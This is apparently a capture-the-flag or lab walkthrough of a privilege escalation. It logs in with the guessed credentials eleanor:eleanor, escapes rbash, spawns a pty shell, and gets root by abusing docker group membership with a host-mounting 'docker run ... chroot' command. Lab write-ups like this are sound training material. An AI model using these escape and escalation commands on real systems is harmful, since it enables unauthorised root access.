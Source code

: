 With eleanor user from [[113]]
We can try `eleanor:eleanor`
![](../attachment/57b3e31a2a59010a325811867c2c6572.png)
We are in rbash.

Checking the home directory:

![](../attachment/12806a14c31c9d5fa1e753ad808b8bc0.png)
We have access to these binaries:
![](../attachment/195e927f215e715ccab55644a66c3e94.png)![](../attachment/d2dbc2e9cab48472fd23f89974f2c4b2.png)
We can try this from gtfobins
![](../attachment/1d1928054d22fa4103f9fde691adb696.png)\
The path variable is not set.
```
export PATH='/home/eleanor/bin:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin'
```
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Now we have a proper shell:
![](../attachment/e6f829746aaa3bbc2da1c4d5ea283855.png)![](../attachment/34ec30efa8cdb75136c2968b7010b722.png)
We are in docker group.

```
docker images
```
![](../attachment/8a829b4ba44fc05dce3780992f99dcb4.png)
We have redmine running as root as we know from [[113]]

To get root:
```
docker run -it -v /:/host/ redmine:latest chroot /host/ bash
```
![](../attachment/2d7d760e9e33929b6066954ffd70630b.png)